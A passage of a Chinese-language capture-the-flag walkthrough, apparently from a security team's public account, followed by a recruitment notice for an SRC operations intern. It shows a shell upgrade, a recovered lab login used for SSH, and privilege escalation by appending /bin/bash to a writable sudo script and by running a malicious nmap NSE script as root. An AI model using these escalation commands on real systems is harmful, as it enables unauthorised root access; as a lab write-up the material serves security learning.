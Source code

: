 ```
命令：python -c ‘import pty;pty.spawn("/bin/bash")’
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9Wva8yiaFD6rO3Cg9m3LMxytTPP2ZmHjAghAmWIkLKbPWribFdsFC6XaOg/640?wx_fmt=png)

进入交互式模式，我们进行下一步操作

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WZAZ7Vg29Su7lrPCaBm9EKXapk72IGVnPVPZH0Ig20eCE77sXHXUyzw/640?wx_fmt=png)

拿到账号密码

```
graham : GSo7isUM1D4
```

我们使用拿到的账号密码登陆 ssh

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9W2S75e52p5ibdJVP9wiaiaY8E7PoHGDSbSVnUdJPPAwMzCqG8NcAfalEgw/640?wx_fmt=png)

下面提权  
在 jens 的用户目录下发现 shell 脚本，并且此脚本有执行权限

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WicjLvwkwsgKBSOZor0pbfuQfequFcnX9knP0LaiamjZVZFo9VBDDlKlA/640?wx_fmt=png)

此脚本在当前用户下有读写权限，修改脚本内容，在末尾增加 / bin/bash，当执行时可以获得 jens 的 shell

```
echo '/bin/bash'  >> backups.sh
sudo -u jens ./backups.sh
```

成功切换到 jens 用户

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9W3AAicDg2IFjDzRjZNzaere9daqJFsm6ggEu55YDUR0zVrnWDuZu4qDg/640?wx_fmt=png)

查看 jens 可以使用的 root 权限命令，发现 nmap 有执行脚本的功能，通过编写特殊脚本，可以实现利用 nmap 提权

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WSAFKeek2QcTdicVHgPpPsb8iaiaEicRsodgia2h45svUtB6m9ibtdrulynuw/640?wx_fmt=png)

写入如下命令成功拿到 flag：

```
echo 'os.execute("/bin/sh")' >get_root.nse
sudo nmap --script=/home/jens/get_root.nse
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WkzjYXgEFdAKH9eEnGrpq2M0ibHvj7b2PAV4S1xRWwFzyYAia85QnGWyw/640?wx_fmt=png)

_**招聘启事**_

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。

